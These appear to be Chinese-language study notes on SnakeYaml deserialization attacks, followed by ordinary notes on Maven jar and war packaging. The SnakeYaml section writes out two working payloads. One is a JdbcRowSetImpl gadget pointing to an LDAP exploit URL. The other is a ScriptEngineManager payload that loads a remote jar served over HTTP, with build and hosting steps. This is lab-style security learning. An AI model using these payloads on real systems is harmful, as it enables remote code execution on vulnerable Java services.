


## SnakeYaml反序列化

SnakeYaml是Java中解析yaml的库，而yaml是一种人类可读的数据序列化语言，通常用于编写配置文件等

```
<dependency>
<groupId>org.yaml</groupId>
<artifactId>snakeyaml</artifactId>
<version>1.32</version>
</dependency>
```

SnakeYaml提供了Yaml.dump()和Yaml.load()两个函数对yaml格式的数据进行序列化和反序列化：
Yaml.load()：入参是一个字符串或者一个文件，经过反序列化之后返回一个Java对象；
Yaml.dump()：序列化将一个Java对象转化为yaml文件形式；

***测试总结：load和loadas都调用了对应的set方法***

1 利用恶意链注入

```
!!com.sun.rowset.JdbcRowSetImpl
dataSourceName: "ldap://localhost:1389/Exploit"
autoCommit: true
```

2 SPI机制

```
https://github.com/artsploit/yaml-payload/

javac AwesomeScriptEngineFactory.java

jar -cvf yaml-payload.jar -C src/ .

项目结构-工件-添加-yaml-payload-添加模块输出-构建工件

python -m http.server 9999

!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1:9999/yaml-payload.jar"]]]]
```


## Maven构建打包

#### 构建jar包

先清除/<skip/>标签内容




一次点击clean jar



### 构建war包

1、pom.xml加入或修改：
\<packaging\>war\</packaging\>

2、启动类里面加入配置：
```
public class TestSwaggerDemoApplication extends SpringBootServletInitializer
@Override
protected SpringApplicationBuilder configure(SpringApplicationBuilder builder) {
	return builder.sources(TestSwaggerDemoApplication.class);
}
```
3、maven-clean-package
4、war放置tomcat后启动
